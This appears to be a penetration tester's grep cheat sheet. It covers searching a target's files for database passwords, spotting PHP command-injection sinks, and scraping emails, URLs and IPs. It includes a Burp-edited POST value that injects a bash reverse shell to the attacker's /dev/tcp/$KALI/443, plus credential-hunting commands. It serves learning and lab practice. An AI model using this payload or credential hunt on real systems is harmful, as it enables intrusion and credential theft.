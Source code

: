 #### Multiple strings
```bash -target
grep "username\|password\|is_admin" backup-2022-12-19
```
```bash - target
grep -E "username|password|is_admin" backup-2022-12-19
```
#### Grep'n for passwords
```bash - target
cd /var/
```
```bash - target
grep -rli "db_login" * 2>/dev/null
```
```bash - target
grep -rli "db_user" * 2>/dev/null
```
```bash - target
grep -rli "db_password" * 2>/dev/null
```
```bash - target
grep -rli "DBUSER" * 2>/dev/null
```
```bash - target
grep -rli "DBPASS" * 2>/dev/null
```
```bash - target
grep -rli "password" * 2>/dev/null
```
```bash - target
grep -rli "pass" * 2>/dev/null
```
```bash - target
grep -rli "pwd" * 2>/dev/null
```
#### Grep'n for PHP vulnerabilities
```bash - kali
grep -R -e system -e exec -e passthru -e '`' -e popen -e proc_open * | more
```
`download.php: flush(); // Flush system headers`
`logs.php:$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");`
`logs.php: flush(); // Flush system headers`
Here we see some comments, but the middle entry for logs.php is a legit finding.
We would just go to the logs.php page, capture the post request in Burp, and modify the request to:
```bash - burp
delim=comma;bash -c 'bash -i >%26 /dev/tcp/$KALI/443 0>%261'
```
#### Grep'n for HTML comments from HTTrack
```bash - kali
grep -r '<!--.*-->' ./ | grep -v "HTTrack" | more
```
#### Grep'n for emails from HTTrack
```bash - kali
grep -Eiorh '([[:alnum:]_.-]+@[[:alnum:]_.-]+?\.[[:alpha:].]{2,6})' "$@" * | sort | uniq
```
#### Grep'n for php vulnerabilities
```
https://github.com/dustyfresh/PHP-vulnerability-audit-cheatsheet
```
### Grep'n for http/s
```bash - kali
grep -Erio 'https?://[^ "\(\)\<\>]*' 2> /dev/null
```
#### Grep'n for IPs
```bash - kali
grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" 2> /dev/null
```
#### Grep'n for details in access logs
```bash - kali
grep -o '[^/]*\.js' access_log.txt | sort -u
```
